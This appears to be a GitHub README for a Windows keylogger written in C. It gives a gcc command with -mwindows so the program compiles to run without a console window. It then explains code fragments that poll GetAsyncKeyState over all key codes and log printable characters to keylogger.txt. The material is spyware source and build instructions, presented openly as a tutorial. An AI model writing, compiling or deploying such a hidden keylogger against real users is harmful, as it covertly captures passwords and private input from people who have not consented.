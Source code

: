 # Keylogger Compilation & Explanation

## Compilation
To compile the program without opening a console window, use the following command:

```bash
gcc keylogger.c -o keylogger -mwindows
```

> [!NOTE]
> `fopen` may not create a keylogger.txt when there is none depedning on permissions

## Code Explanation

```c
#define WIN32_LEAN_AND_MEAN
```
The above define lowers the amount of headers included by the windows api, making it "faster".

---

```c
short GetAsyncKeyState(int vKey);
```
This is a Windows API function that checks the state of a key as of calling and since last call.

---


```c
for (int i = 0; i < 256; i++)
    GetAsyncKeyState(i);
```
This loop ensures that all unwanted key presses are flushed, preventing any unintended logging.

---

```c
if (GetAsyncKeyState(i) & 0b1)
```
This condition checks every ASCII character to determine if it is currently pressed or was pressed since the last check. The bitwise operation `& 0b1` requires the last bit of the return of `GetAsyncKeyState` to be 1, which is the case when the key was specifficaly pressed (not held down).

---

```c
if (i >= 32 && i <= 126)
```
This condition restricts logging to printable ASCII characters.

